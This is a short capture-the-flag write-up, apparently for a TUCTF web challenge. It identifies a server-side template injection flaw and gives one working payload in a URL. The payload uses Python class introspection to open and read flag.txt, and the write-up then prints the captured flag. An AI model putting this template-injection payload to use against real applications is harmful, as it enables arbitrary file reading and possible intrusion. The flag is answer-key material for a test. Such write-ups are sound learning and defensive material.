

# Challenge #
 
  
# Solution #
<pre>
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)

used following for flag: http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D

TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465} 
</pre>

